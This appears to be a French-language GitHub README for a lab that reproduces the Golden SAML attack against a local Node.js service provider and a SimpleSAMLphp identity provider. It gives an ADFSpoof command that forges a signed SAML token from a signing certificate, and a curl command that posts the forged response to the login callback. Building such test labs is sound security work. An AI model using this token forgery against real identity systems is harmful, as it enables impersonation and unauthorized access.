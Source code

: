 ## README

Ce projet a pour but de tester l'attaque Golden SAML en mettant en place un environnement très basique constitué d'un identity provider et d'un service provider:

* https://www.xmco.fr/actu-secu/XMCO-ActuSecu-56-SolarWinds-CallStranger-GitLab.pdf

## Usage

### Service Provider
```bash
cd npm; node index
```
go to  http://localhost:4300/login

### Identity Provider
```bash
cd docker-simplesamlphp; docker-compose up
```
go to http://localhost/

### ADFSpoof
Pour générer un jeton SAML signé:
```bash
python3 ADFSpoof.py -s "test" -c server.p12 -o SAMLResponse.txt -p "poc" saml2 --nameidformat "" --nameid "" --endpoint "" --rpidentifier "" --assertions ""
```

Le jeton généré a été exporté au sein du fichier **SAMLResponse.txt**.
Transmettre la réponse SAML générée, en base64 (`base64 SAMLResponse.txt`), à l'aide par exemple de la commande ci-dessous:

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: sp:4300' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:90.0) Gecko/20100101 Firefox/90.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 4355' \
    --data-urlencode $'SAMLResponse=<SAMLResponse.txt encodé en base64>' \
    $'http://localhost:4300/login/callback'
```

## Références
- https://medium.com/disney-streaming/setup-a-single-sign-on-saml-test-environment-with-docker-and-nodejs-c53fc1a984c9
- https://github.com/kenchan0130/docker-simplesamlphp
- https://github.com/fireeye/ADFSpoof

